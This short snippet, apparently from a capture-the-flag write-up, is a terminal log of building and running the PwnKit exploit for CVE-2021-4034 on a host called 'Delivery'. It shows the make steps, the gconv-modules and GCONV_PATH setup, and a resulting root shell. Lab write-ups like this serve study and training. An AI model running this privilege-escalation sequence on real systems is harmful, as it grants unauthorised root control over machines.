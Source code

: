 ```
maildeliverer@Delivery:/tmp/exploit/CVE-2021-4034$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
maildeliverer@Delivery:/tmp/exploit/CVE-2021-4034$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),1000(maildeliverer)
# 
```
